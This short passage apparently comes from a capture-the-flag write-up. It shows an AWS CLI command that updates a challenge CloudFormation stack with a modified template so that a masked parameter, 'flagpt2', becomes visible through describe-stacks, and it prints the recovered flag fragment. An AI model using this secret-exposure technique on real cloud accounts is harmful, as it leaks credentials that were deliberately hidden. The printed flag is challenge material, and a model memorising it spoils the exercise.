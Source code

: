 ```bash
aws cloudformation update-stack \
  --stack-name pawxy-sandbox-ff934a59 \
  --template-body file://modified-template.yaml \
  --parameters ParameterKey=flagpt2,UsePreviousValue=true \
  --disable-rollback
```

After the stack update, `describe-stacks` revealed the uncensored `flagpt2` parameter.

**Flag part 2:** `_c47_4S7r0PHiC_fL4w5}`